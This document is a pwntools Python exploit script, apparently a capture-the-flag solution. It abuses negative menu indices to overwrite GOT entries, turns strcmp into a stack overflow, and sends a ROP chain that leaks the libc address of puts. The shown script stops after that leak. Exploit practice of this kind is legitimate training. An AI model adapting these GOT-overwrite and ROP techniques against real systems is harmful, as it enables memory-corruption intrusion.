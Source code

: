 ```python
def conn():
    if args.REMOTE:
        r = remote(IP, PORT)
    elif args.LOCAL:
        r = process([elf.path])
    elif args.GDB:
        r = gdb.debug([elf.path], gdbscript=gs)
    else:
        r = process([elf.path], level="WARNING")
    return r


with conn() as p:
    rop = ROP(elf)
    ret = rop.find_gadget(["ret"]).address
    username = b"A" * (0x100)

    p.sendlineafter(b": ", username)
    p.sendlineafter(b": ", str(0x100).encode())
    p.sendlineafter(b":", b"B" * (0x100 - 8))

    # change role to technician
    p.sendlineafter(b": ", b"5")
    p.sendlineafter(b": ", b"1")

    # overwrite stack_check_fail
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"-14")
    p.sendlineafter(b": ", str(ret).encode())
    p.sendlineafter(b": ", str(ret).encode())
    p.sendlineafter(b">", b"y")

    # overwrite memset cos it keeps crashing
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"-13")
    p.sendlineafter(b": ", str(elf.plt.puts).encode())
    p.sendlineafter(b": ", str(ret).encode())
    p.sendlineafter(b">", b"y")

    # make strcmp a buffer overflow
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"-11")

    p.sendlineafter(b": ", str(elf.sym.read_input).encode())
    p.sendlineafter(b": ", str(elf.plt.puts).encode())
    p.sendlineafter(b">", b"y")
    
    # trigger overflow
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"1")


    rop.puts(elf.got.puts)
    rop.call(0x401db2)
    payload = flat({
        19: rop.chain()
        })

    p.sendlineafter(b"> ", payload)
    p.recvline()
    p.recvline()
```
